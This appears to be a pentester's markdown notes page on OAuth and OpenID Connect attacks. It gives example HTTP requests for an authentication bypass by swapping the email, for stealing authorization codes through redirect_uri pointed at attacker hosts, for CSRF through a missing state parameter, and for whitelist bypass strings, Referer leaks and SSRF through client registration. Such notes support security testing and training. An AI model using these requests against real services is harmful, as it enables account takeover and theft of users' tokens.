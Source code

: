 ```yaml
---
title: Oauth

---
```




## Authentication bypass via OAuth implicit flow

Check if authentication on the target server depends solely on the OAuth token or if it also uses username/email parameters provided by clientside. As an example the next request sends the token and email+username.


```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable-server.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"wiener@hotdog.com","username":"wiener","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

The server only checks if the token is valid, and then logs-in to the indicated username/email. In this request, using the same token from an account we control, we can authenticate as other user simply by changing email/username:

```http
POST /authenticate HTTP/1.1
Host: {{ target-domain vulerable-server.net }}
Cookie: session=n20zBuYgGlReeEXCjbsonkzq2qaH8txt
Content-Length: 103
Content-Type: application/json
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"YwLD1AxRtNly8VTIg63UxtFkHlfkweeFIwtG7O9V8ho"}
```

This could lead to a full account takeover.

## OAuth account hijacking via redirect_uri

This vulnerability affects the OAuth provider or its configuration. Not limiting the `redirect_uri` parameter, could result in a CSRF-like vulnerability where an attacker could steal authorization codes. The victim just has to visit a malicious link where the `redirect_uri` parameter was changed to an attacker-controlled server.

```http
GET /auth?client_id=X&redirect_uri=https%3a%2f%2f{{ collaborator your.burpcollaborator.net }}&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: {{ target-domain vulerable-server.net }}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
```


This will result on the user being redirected to the attacker server leaking the _Authorization code_ on the `code` GET parameter as seen on the following request received on the burp collaborator:


```http
GET /oauth-callback?code=DMRc3iIkqJ1EhTj2GMRhmz9V_viFZlz6pEQJUI0odAc HTTP/1.1
Host: {{ collaborator your.burpcollaborator.net }}
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
```

## Flawed CSRF protection
The `state` parameter on OAuth is optional, but strongly recommended. This parameter works as a CSRF token.

You can force people into either using yor account or into linking your social media account to their vulnerable app account. A simple redirect to the `?code=` URL is what you are looking for.


```http
HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: https://{{ target-domain vulerable-server.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY

<a href="https://{{ target-domain vulerable-server.net }}/oauth-linking?code=PsM3KdpzzNnEfl4bYBIu0HgXkXiQd5Ge4zDbvGnKBRY">Click me</a>
```





## Additional tips

The `redirect_uri` must be limited to an specific whitelist. This could also be circumvented. A few tests should be carried out before giving up:
-  Try removing or adding arbitrary paths, query parameters, and fragments to **see what you can change without triggering an error**.
-  You might be able to exploit discrepancies between the **parsing of the URI**. You can try techniques such as:
  -  `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
-  You may occasionally come across **server-side parameter pollution** vulnerabilities. Just in case, you should try submitting duplicate redirect_uri parameters as follows:
  -  `https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
-  Weird checks could be in place. Some servers give special treatment to **localhost URIs**; things such as subdomains like `localhost.evil-user.net` should be tested.
- **Don't limit your testing to the redirect_uri parameter**. You will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.
- Abusing **other vulnerabilities** on the same domain such as **open redirects** could also be handy. You could try URIs such as `https://client-app.com/oauth/callback/../../example/path` where theres open redirects. More vulnerabilities can be:
  - **Dangerous JavaScript that handles query parameters and URL fragments**: For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain.
  - **XSS vulnerabnilities**: Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the HTTPOnly attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability.
  - **HTML injection vulnerabilities**: In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the redirect_uri parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the _Referer_ header. For example, consider the following img element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the _Referer_ header of the request, including the query string.



## OpenID Connect
Basically extends OAuth to provide a more standarised, robust and reliable way of using OAuth as an authentication mechanism. The main addition is the **ID token** (`id_token`) response type. Is a more simple (requires less requests) way of using OAuth. Easily recognisable as it returns a Json Web Token (JWT).

Standard endpoint: `/.well-known/openid-configuration`

### Unprotected dynamic client registration
Some OpenID providers allow for a dynamic way of registering clients. This should be authenticated as attackers could register their own malicious client applications.

This could actually result in a SSRF vector where the vulnerable component is the OAuth provider. For example you could register an application and be able to provide a URL for the APP logo wich could be an SSRF attack.





## Saúl's _"seen in the wild"_ tips 

### Checking if the tokens were requested by the intended application

When using OAuth for authentication, the servers must check that the tokens they are receiving were not emmited for other apps. The attack would be like this:

1. Victim logs in using Google on a malicious rogue application.
2. Attacker controling the malicious application uses received OAuth/OpenID token to login on the vulnerable service.

More info at [Validating  an ID token](https://developers.google.com/identity/protocols/oauth2/openid-connect#validatinganidtoken)



